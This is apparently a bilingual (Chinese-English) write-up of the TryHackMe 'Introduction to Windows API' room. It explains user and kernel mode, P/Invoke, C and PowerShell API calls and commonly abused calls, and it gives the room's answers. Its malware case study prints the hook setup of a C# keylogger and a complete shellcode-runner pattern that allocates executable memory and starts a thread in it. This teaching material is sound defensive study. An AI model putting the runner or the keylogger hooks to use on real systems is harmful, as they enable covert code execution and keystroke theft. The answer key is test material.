

# Introduction to Windows API - Windows API 简介

> [TryHackMe | Introduction to Windows API](https://tryhackme.com/room/windowsapi)
>
> Updated in 2023-12-28
>
> 学习如何与 Win32 API 进行交互，并理解其广泛的用例。
>
> Learn how to interact with the win32 API and understand its wide range of use cases

## Introduction - 介绍

Windows API 提供原生功能，用于与 Windows 操作系统的关键组件进行交互。该 API 被广泛应用于红队、威胁行为者、蓝队、软件开发人员和解决方案提供商之间。

该 API 能够与 Windows 系统无缝集成，提供各种用例。你可能会看到 Win32 API 被用于攻击性工具和恶意软件开发、EDR（终端检测与响应）工程以及一般软件应用。想了解更多关于 API 的所有用例，请查阅 Windows API 索引。

学习目标

- 了解 Windows API 是什么，其用例以及与操作系统子系统的交互方式
- 学习如何在不同编程语言中实现 Windows API
- 了解从恶意角度使用 Windows API 的方式，并解析多个实际案例

在开始学习本课程之前，我们建议具备对操作系统架构的一般了解。基本的编程知识也是推荐但非必需的。

本课程旨在基础层面教授 Windows API。我们会简要涵盖 Win32 API 的实现，但重点是理解 API 调用的原因和用途。

请系好安全带并确认最近的紧急出口位置（只是开玩笑罢了）

## Subsystem and Hardware Interaction - 子系统和硬件交互

程序经常需要访问或修改 Windows 子系统或硬件，但受到限制以维护机器的稳定性。为解决这个问题，微软发布了 Win32 API，这是一个用于在用户模式应用程序和内核之间进行接口的库。

Windows 将硬件访问区分为两种不同模式：用户模式（ `User mode` ）和内核模式（ `Kernel mode` ）。这些模式决定了应用程序或驱动程序被允许的硬件、内核和内存访问权限。API 或系统调用在每种模式之间进行接口，将信息发送到系统以在内核模式中进行处理。

|       User mode        |   Kernel mode    |
| :--------------------: | :--------------: |
|     无直接硬件访问     |   直接硬件访问   |
| 访问 “拥有” 的内存位置 | 访问整个物理内存 |

有关内存管理的更多信息，请查阅 `Windows Internals` 。

以下是一个可视化展示，说明用户应用程序如何使用 API 调用来修改内核组件。

<div style={{textAlign:'center'}}>



</div>

当观察语言与 Win32 API 交互的过程时，这个过程可能会变得更加扭曲；应用程序会在经过语言运行时之前再经过 API。

有关运行时的更多信息，请查阅 `Runtime Detection Evasion` 。

:::info Answer the questions below

用户模式下的进程是否具有直接硬件访问权限？(Y/N)

```plaintext
N
```

以管理员权限启动应用程序是否会将进程置于内核模式下？(Y/N)

```plaintext
N
```

:::

## Components of the Windows API - Windows API 的组成部分

Win32 API，更常被称为 Windows API，具有几个依赖组件，用于定义 API 的结构和组织。

让我们通过自顶向下的方法来分解 Win32 API。我们将假设 API 是顶层，构成特定调用的参数是底层。在下面的表格中，我们将以高层次描述自顶向下的结构，并稍后深入了解更多细节。

|          Layer          |                                                                Explanation                                                                |
| :---------------------: | :---------------------------------------------------------------------------------------------------------------------------------------: |
|           API           |                                         Win32 API 结构中用于描述任何调用的顶层 / 通用术语或理论。                                         |
| Header files or imports |                                 定义在运行时导入的库，由头文件或库导入文件定义。使用指针来获取函数地址。                                  |
|        Core DLLs        | 这是一组四个 DLL（动态链接库），用于定义调用结构。（KERNEL32、USER32 和 ADVAPI32）。这些 DLL 定义了不包含在单个子系统中的内核和用户服务。 |
|    Supplemental DLLs    |   作为 Windows API 的一部分定义的其他 DLL。控制 Windows 操作系统的各个独立子系统。还有约 36 个其他定义的 DLL（NTDLL、COM、FVEAPI 等）。   |
|     Call Structures     |                                                     定义 API 调用本身以及调用的参数。                                                     |
|        API Calls        |                                             程序中使用的 API 调用，函数地址是通过指针获取的。                                             |
|    In/Out Parameters    |                                                         由调用结构定义的参数值。                                                          |

让我们扩展这些定义；在下一个任务中，我们将讨论导入库、核心头文件和调用结构。在第四个任务中，我们将更深入地了解调用，理解如何解析调用参数和变体。

:::info Answer the questions below

哪个头文件导入并定义了 User32 DLL 和结构？

```plaintext
winuser.h
```

包含所有其他必需的子头文件和核心头文件的父头文件是哪个？

```plaintext
windows.h
```

:::

## OS Libraries - 操作系统库

Win32 库中的每个 API 调用都驻留在内存中，并需要一个指向内存地址的指针。由于 ASLR（地址空间布局随机化）的实现，获取这些函数的指针的过程被模糊化；每种语言或包都有独特的过程来克服 ASLR。在整个教程中，我们将讨论两种最流行的实现方式：P/Invoke [Platform Invoke (P/Invoke)](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke) 和 Windows 头文件 [Using the Windows Headers - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/winprog/using-the-windows-headers)。

在这个任务中，我们将深入探讨这两种实现方式的工作原理，未来的任务中我们将把它们投入实际应用。

### Windows 头文件

微软发布了 Windows 头文件，也称为 Windows 加载器，作为解决 ASLR 实现相关问题的直接解决方案。在概念层面上，运行时加载器将确定正在进行的调用，并创建一个 thunk 表来获取函数地址或指针。

幸运的是，如果不希望深入了解，我们不必深入研究。

一旦将 `windows.h` 文件包含在未管理的程序的顶部，就可以调用任何 Win32 函数。

我们将在任务 6 中更实际地涵盖这个概念。

### P/Invoke

微软将 P/Invoke 或平台调用描述为 “一种允许你从托管代码访问未管理库中的结构、回调和函数的技术。”

P/Invoke 提供了处理从托管代码调用未管理函数或者说调用 Win32 API 的整个过程的工具。P/Invoke 将从导入包含所需未管理函数或 Win32 API 调用的 DLL 开始。以下是导入 DLL 并提供选项的示例。

```aspnet
using System;
using System.Runtime.InteropServices;

public class Program
{
[DllImport("user32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
...
}
```

在上面的代码中，我们使用属性 `DLLImport` 导入了 DLL `user32` 。

注意：这里没有包含分号，因为 P/Invoke 函数还没有完成。在第二步中，我们必须将一个托管方法定义为外部方法。`extern` 关键字将告知运行时先前导入的特定 DLL。以下是创建外部方法的示例。

```aspnet
using System;
using System.Runtime.InteropServices;

public class Program
{
...
private static extern int MessageBox(IntPtr hWnd, string lpText, string lpCaption, uint uType);
}
```

现在我们可以将这个函数作为托管方法调用，但实际上是在调用未管理的函数！

我们将在任务 7 中更实际地涵盖这个概念。

:::info Answer the questions below

提供给 .NET 的 P/Invoke 的主要命名空间是什么？

```plaintext
System
```

用于模糊导入 API 调用过程的内存保护解决方案是什么？

```plaintext
ASLR
```

:::

## API Call Structure - API 调用结构

API 调用是 Win32 库的第二个主要组成部分。这些调用提供了可扩展性和灵活性，可用于满足大量用例。大多数 Win32 API 调用都在 [Windows API index - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list) 和 [pinvoke.net](http://pinvoke.net/) 下有详细说明。

在这个任务中，我们将初步了解 API 调用的命名方案和输入 / 输出参数。

通过修改命名方案并附加表示字符，可以扩展 API 调用的功能。以下是 Microsoft 支持的命名方案字符表。

| Character |                Explanation                 |
| :-------: | :----------------------------------------: |
|     A     |      表示采用 ANSI 编码的 8 位字符集       |
|     W     |             表示 Unicode 编码              |
|    Ex     | 为 API 调用提供了扩展功能或输入 / 输出参数 |

想要了解更多关于这个概念的信息，可以查阅 [Working with Strings - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/learnwin32/working-with-strings) 。

<hr></hr>

每个 API 调用还有预定义的结构来定义其输入 / 输出参数。你可以在 [Windows API index - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list) 中相应 API 调用页面找到大多数这些结构，以及对每个 I/O 参数的解释。

让我们以 `WriteProcessMemory` API 调用为例。以下是该调用的 I/O 结构，可以在 [WriteProcessMemory function (memoryapi.h)](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) 获取到。

```c
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

对于每个 I/O 参数，微软也解释了其用途、预期输入或输出以及接受的值。

即使有解释，有时确定这些值对于特定调用也可能具有挑战性。我们建议在将调用用于代码之前，始终进行研究并查找 API 调用使用的示例。

:::info Answer the questions below

附加到 API 调用的字符中，表示 ANSI 编码的是哪个？

```plaintext
A
```

附加到 API 调用的字符中，表示扩展功能的是哪个？

```plaintext
Ex
```

在 VirtualAlloc API 调用中，0x00080000 的内存分配类型是什么？

<details>

<summary> 具体操作步骤 </summary>

可以在以下文档中找到说明

[VirtualAlloc function (memoryapi.h) - Microsoft Learn]([https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc]
)

</details>

```plaintext
MEM_RESET
```

:::

## C API Implementations - C API 实现

微软为诸如 C 和 C++ 这样的低级编程语言提供了预配置的一套库，我们可以使用这些库来访问所需的 API 调用。

正如在任务 4 中讨论的那样，windows.h 头文件用于定义调用结构并获取函数指针。要在任何 C 或 C++ 程序中包含 windows 头文件，请在程序开头添加以下行。

```c
#include <windows.h>
```

让我们直接开始创建我们的第一个 API 调用。作为我们的第一个目标，我们打算使用 CreateWindowExA 创建一个标题为：“Hello THM！” 的弹出窗口。为了重申任务 5 中讨论的内容，让我们观察一下该调用的输入 / 输出参数。

```c
HWND CreateWindowExA(
  [in]           DWORD     dwExStyle, // Optional windows styles
  [in, optional] LPCSTR    lpClassName, // Windows class
  [in, optional] LPCSTR    lpWindowName, // Windows text
  [in]           DWORD     dwStyle, // Windows style
  [in]           int       X, // X position
  [in]           int       Y, // Y position
  [in]           int       nWidth, // Width size
  [in]           int       nHeight, // Height size
  [in, optional] HWND      hWndParent, // Parent windows
  [in, optional] HMENU     hMenu, // Menu
  [in, optional] HINSTANCE hInstance, // Instance handle
  [in, optional] LPVOID    lpParam // Additional application data
);
```

让我们拿这些预定义的参数并为它们赋值。正如在任务 5 中提到的，每个 API 调用的参数都有其用途和潜在值的解释。以下是对 `CreateWindowsExA` 的完整调用的示例。

```c
HWND hwnd = CreateWindowsEx(
    0,
    CLASS_NAME,
    L"Hello THM!",
    WS_OVERLAPPEDWINDOW,
    CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT,
    NULL,
    NULL,
    hInstance,
    NULL
    );
```

我们已经在 C 中定义了我们的第一个 API 调用！现在我们可以将其实现到一个应用程序中，并使用这个 API 调用的功能。以下是一个使用 API 创建一个小型空白窗口的示例应用程序。

```c
BOOL Create(
        PCWSTR lpWindowName,
        DWORD dwStyle,
        DWORD dwExStyle = 0,
        int x = CW_USEDEFAULT,
        int y = CW_USEDEFAULT,
        int nWidth = CW_USEDEFAULT,
        int nHeight = CW_USEDEFAULT,
        HWND hWndParent = 0,
        HMENU hMenu = 0
        )
    {
        WNDCLASS wc = {0};

        wc.lpfnWndProc   = DERIVED_TYPE::WindowProc;
        wc.hInstance     = GetModuleHandle(NULL);
        wc.lpszClassName = ClassName();

        RegisterClass(&wc);

        m_hwnd = CreateWindowEx(
            dwExStyle, ClassName(), lpWindowName, dwStyle, x, y,
            nWidth, nHeight, hWndParent, hMenu, GetModuleHandle(NULL), this
            );

        return (m_hwnd ? TRUE : FALSE);
    }
```

如果成功，我们应该会看到一个标题为 “Hello THM!” 的窗口。

正如本任务中所展示的，低级语言使得快速定义 API 调用变得非常容易。由于易用性和可扩展性，基于 C 的语言在威胁行为者和供应商中都非常流行。

:::info Answer the questions below

你需要在 C 语言中定义一个结构体来使用 API 调用吗？（Y/N）

```plaintext
N
```

:::

## .NET and PowerShell API Implementations - .NET 和 PowerShell API 实现

正如在任务 4 中讨论的那样，P/Invoke 允许我们导入 DLL 并为 API 调用分配指针。

为了理解 P/Invoke 是如何实现的，让我们直接通过下面的示例来了解，并在之后讨论各个组成部分。

```aspnet
class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetComputerNameA(StringBuilder lpBuffer, ref uint lpnSize);
}
```

该类函数存储了定义的 API 调用以及在所有未来方法中引用的定义。

存储 API 调用结构的库现在必须使用 `DllImport` 进行导入。被导入的 DLL 类似于头文件包，但要求您导入具有您寻找的 API 调用的特定 DLL。您可以参考 API 索引或 pinvoke.net 来确定特定 API 调用在 DLL 中的位置。

通过 DLL 导入，我们可以创建一个指向我们想要使用的 API 调用的新指针，通常由 `intPtr` 定义。与其他低级语言不同，您必须在指针中指定输入 / 输出参数结构。正如在任务 5 中讨论的那样，我们可以从 Windows 文档中找到所需 API 调用的输入 / 输出参数。

现在，我们可以将定义的 API 调用实现到一个应用程序中并使用其功能。以下是一个示例应用程序，使用 API 获取其运行设备的计算机名称和其他信息。

```aspnet
class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetComputerNameA(StringBuilder lpBuffer, ref uint lpnSize);
}

static void Main(string[] args) {
    bool success;
    StringBuilder name = new StringBuilder(260);
    uint size = 260;
    success = GetComputerNameA(name, ref size);
    Console.WriteLine(name.ToString());
}
```

如果成功，程序应返回当前设备的计算机名称。

现在我们已经介绍了如何在. NET 中完成这个任务，让我们看看如何将相同的语法调整为在 PowerShell 中使用。

定义 API 调用几乎与. NET 的实现相同，但我们需要创建一个方法而不是一个类，并添加一些额外的运算符。

```powershell
$MethodDefinition = @"
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
"@;
```

这些调用现在已经定义，但在它们可以初始化之前，PowerShell 需要进一步的步骤。我们必须在方法定义中为每个 Win32 DLL 的指针创建一个新类型。函数 `Add-Type` 将在 `/temp` 目录中放置一个临时文件，并使用 `csc.exe` 编译所需的函数。以下是该函数的示例用法。

```powershell
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```

现在我们可以使用以下语法进行所需的 API 调用。

```powershell
[Win32.Kernel32]::<Imported Call>()
```

:::info Answer the questions below

使用什么方法导入所需的 DLL？

```plaintext
DllImport
```

使用什么类型的方法来引用 API 调用来获取结构体？

```plaintext
External
```

:::

## Commonly Abused API Calls - 常被滥用的 API 调用

Win32 库中的多个 API 调用很容易被用于恶意活动。

有多个实体试图记录和整理所有具有恶意向量的可用 API 调用，包括 SANs 和 MalAPI.io。

尽管很多调用被滥用，但有些比其他更频繁地出现在野外。以下是一个按照一系列样本中频率组织的最常被滥用的 API 调用表格。

|      API Call      |                             Explanation                             |
| :----------------: | :-----------------------------------------------------------------: |
|    LoadLibraryA    |                将指定的 DLL 映射到调用进程的地址空间                |
|    GetUserNameA    |                    获取与当前线程关联的用户名称                     |
|  GetComputerNameA  |                获取本地计算机的 NetBIOS 或 DNS 名称                 |
|   GetVersionExA    |                   获取当前运行操作系统版本的信息                    |
| GetModuleFileNameA |                获取指定模块和进程文件的完全限定路径                 |
|  GetStartupInfoA   | 获取 STARTUPINFO 结构的内容（窗口站、桌面、标准句柄以及进程的外观） |
|  GetModuleHandle   |       如果映射到调用进程的地址空间中，返回指定模块的模块句柄        |
|   GetProcAddress   |                     返回指定导出 DLL 函数的地址                     |
|   VirtualProtect   |            改变调用进程虚拟地址空间中内存区域的保护方式             |

在接下来的任务中，我们将深入研究这些调用在两个恶意软件样本中是如何被滥用的案例研究。

:::info Answer the questions below

哪个 API 调用返回导出的 DLL 函数的地址？

```plaintext
GetProcAddress
```

哪个 API 调用将指定的 DLL 导入到调用进程的地址空间中？

```plaintext
LoadLibrary
```

:::

## Malware Case Study - 恶意软件案例研究

现在我们了解了 Win32 库和常被滥用的 API 调用的基本实现，让我们分析两个恶意软件样本，并观察它们的调用是如何交互的。

在这个任务中，我们将分析一个 C# 键盘记录器和 shellcode 启动器。

### 键盘记录器

要开始分析键盘记录器，我们需要收集它实现了哪些 API 调用和钩子。因为键盘记录器是用 C# 编写的，它必须使用 P/Invoke 来获取每个调用的指针。以下是恶意样本源代码中 P/Invoke 定义的片段。

```aspnet
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
[return: MarshalAs(UnmanagedType.Bool)]
private static extern bool UnhookWindowsHookEx(IntPtr hhk);
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern IntPtr GetModuleHandle(string lpModuleName);
private static int WHKEYBOARDLL = 13;
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern IntPtr GetCurrentProcess();
```

以下是每个 API 调用及其相应用途的解释。

|      API Call       |                  Explanation                   |
| :-----------------: | :--------------------------------------------: |
|  SetWindowsHookEx   |    将内存钩子安装到钩子链中，以监视特定事件    |
| UnhookWindowsHookEx |           从钩子链中移除已安装的钩子           |
|   GetModuleHandle   | 返回映射到调用进程的地址空间中的模块的模块句柄 |
|  GetCurrentProcess  |              获取当前进程的伪句柄              |

为了保持案例研究的道德完整性，我们不会涉及样本如何收集每次按键。我们将分析样本是如何在当前进程上设置钩子的。以下是恶意样本源代码中设置钩子部分的片段。

```aspnet
public static void Main() {
    _hookID = SetHook(_proc);
    Application.Run();
    UnhookWindowsHookEx(_hookID);
    Application.Exit();
}
private static IntPtr SetHook(LowLevelKeyboardProc proc) {
    using (Process curProcess = Process.GetCurrentProcess()) {
        return SetWindowsHookEx(WHKEYBOARDLL, proc, GetModuleHandle(curProcess.ProcessName), 0);
    }
}
```

了解键盘记录器的目标和过程，然后根据以上代码片段分配相应的 API 调用。

利用 [Windows API index - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list) 和以上片段的上下文，开始分析键盘记录器，使用问题 1 到 4 作为指导，逐步研究样本。

### Shellcode 启动器

对于 Shellcode 启动器，开始分析它所实现的 API 调用，这个过程应该与之前的案例研究类似。以下是恶意样本源代码中的 P/Invoke 定义片段。

```aspnet
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
```

以下是每个 API 调用及其相应用途的解释。

|      API Call       |                        Explanation                         |
| :-----------------: | :--------------------------------------------------------: |
|    VirtualAlloc     | 在调用进程的虚拟地址空间中保留、提交或更改页面区域的状态。 |
| WaitForSingleObject |        等待直到指定的对象处于信号状态或超时时间到达        |
|    CreateThread     |        创建一个线程，在调用进程的虚拟地址空间内执行        |

现在我们将分析 shellcode 是如何被写入并在内存中执行的。

```aspnet
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;
```

让我们了解 shellcode 执行的目标和流程，然后根据以上片段分配相应的 API 调用。

利用 [Windows API index - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list) 和以上片段的上下文，开始分析 shellcode 启动器，使用问题 5 到 8 作为指南，逐步研究样本。

:::info Answer the questions below

在键盘记录器示例中，使用了哪个 Win32 API 调用来获取当前进程的伪句柄？

```plaintext
GetCurrentProcess
```

在键盘记录器示例中，使用了哪个 Win32 API 调用来在当前进程上设置钩子？

```plaintext
SetWindowsHookEx
```

在键盘记录器示例中，使用了哪个 Win32 API 调用来从伪句柄获取句柄？

```plaintext
GetModuleHandle
```

在键盘记录器示例中，使用了哪个 Win32 API 调用来取消在当前进程上的钩子？

```plaintext
UnhookWindowsHookEx
```

在 shellcode 启动器示例中，用于为 shellcode 大小分配内存的 Win32 API 调用是什么？

```plaintext
VirtualAlloc
```

在 shellcode 启动器示例中，用于将 shellcode 写入已分配内存部分的本地方法是什么？

```plaintext
Marshal.Copy
```

在 shellcode 启动器示例中，用于创建新执行线程的 Win32 API 调用是什么？

```plaintext
CreateThread
```

在 shellcode 启动器示例中，用于等待线程退出的 Win32 API 调用是什么？

```plaintext
WaitForSingleObject
```

:::

## Conclusion - 结论

这就是 Windows API 基础知识的结束。API 的功能和可扩展性有许多其他可能性和应用，在这个房间里我们没有提到。

Windows API 可以为你提供各种用例，而我们将在后续的红队路径和 TryHackMe 的其他房间中继续讨论和探索。
